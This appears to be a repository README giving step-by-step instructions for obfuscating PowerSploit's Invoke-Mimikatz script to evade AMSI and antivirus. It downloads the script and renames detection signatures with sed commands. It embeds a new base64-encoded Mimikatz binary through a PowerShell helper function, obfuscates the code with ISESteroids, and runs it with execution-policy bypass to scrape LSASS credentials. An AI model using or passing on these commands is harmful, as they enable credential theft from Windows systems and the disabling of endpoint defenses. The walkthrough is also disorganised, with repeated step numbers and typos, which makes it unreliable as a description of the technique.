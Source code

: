 # Obfuscated_Invoke-Mimikatz
Bypass AMSI + AV + AntiMalware
#AMSI evasion and clear text password to spike the mimikatz hash# 
Antivirus evasion activity using set command and ISE sploit module to bypass windows and anti-malware scan and AMSI as well
----------------------------------------------------------------------      
	Step 1: download Invoke-Mimikatz.ps1 from PowershellMafia:
https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1

	Step 2: then substitute all “invoke-Mimikatz” currencies with “invoke-Lsasscraper” inside the invoke-mimikatze.ps1 script:
sed -i -e 's/Invoke-Mimikatz/Invoke-LSASSscraper/g' Invoke-Mimikatz.ps1

	Step 3: remove all comments:
sed -i -e '/<#/,/#>/c\\' Invoke-Mimikatz.ps1

	Step 4: remove all comment indented
sed -i -e 's/^[[:space:]]*#.*$//g' Invoke-Mimikatz.ps1

	Step 5: replace parameters and strings they can picked up by antivirus engine:
sed -i -e 's/DumpCreds/Dump/g' Invoke-Mimikatz.ps1
sed -i -e 's/ArgumentPtr/0bf/g' Invoke-Mimikatz.ps1
sed -i -e 's/CallDllMainSC1/0bfSC1/g' Invoke-Mimikatz.ps1
sed -i -e "s/\-Win32Functions \$Win32Functions$/\-Win32Functions \$Win32Functions #\-/g" Invoke-Mimikatz.ps1


	Step 5: move Invoke-Mimikatz script and its current form to a windows machine and perform two additional activities

	Step 5.1: Embed an update version of Mimikatz inside our Powershell script
-	The PEBytes64 variable in Invoke-Mimikatz.ps1 include an old version of Mimikatz.exe so we need to replace it by a new one.

-	Note: in the Invoke-Mimikatz.ps1 there is a lot of PEBytes64 variables but we only want to change the value of the one that came diretly after this([System.IO.Directory]::SetCurrentDirectory($pwd))
 
-	So for that, we will use this script, that will generate the new value
function Convert-BinaryToString 
{
[ CmdletBinding()] param ([string] $FilePath)
try {$ByteArray = [System.IO.File]::ReadAllBytes($FilePath);}
catch { throw "Failed to read file. Ensure that you have permission to the file, and that the file path is correct";}
if ($ByteArray) {$Base64String = [System.Convert]::ToBase64String($ByteArray);}
else {throw '$ByteArray is $null.';}
Write-Output -InputObject $Base64String;
}
Convert-BinaryToString path_to_mimkatz_executable | Out-File C:\Users\malic\Desktop\PEBytes64.txt
 

-	Then save the file again "obfuscat_Invoke-Mimikatz.txt"

	Step 5.2: apply an obfuscation layer on the script to enhance attend of our antivirus capabilities and this pre-obfuscation activities can be done by leveraging the ISE steroid module
-	Note: if you don’t have the Start-Steroids module run this in Powershell to download it : 
Install-Module -Name "ISESteroids" -Scope CurrentUser -Repository PSGallery –Force
-	copy the content of "obfuscat_Invoke-Mimikatz.txt" into Powershell and then start this module: 
PS > Start-Steroids (this will convert command to alias and more)
 






-	Then click from Powershell click on:
"tools"->"Obfuscate code"->OK
Note: another file will be created
 
 




-	Then save the file "obfuscat_Invoke-Mimikatz.ps1"

	Step 6: Time to test the script "obfuscat_Invoke-Mimikatz.ps1" against windows AMSI:
-	activate windows security "Real-time protection"
-	open powershell CLI and type : 
powershell -ep bypass
Import-Module .\obfuscat_Invoke-Mimikatz.ps1
Invoke-LSASSscraper

And shit we have been captured by AMSI !
 


  
   
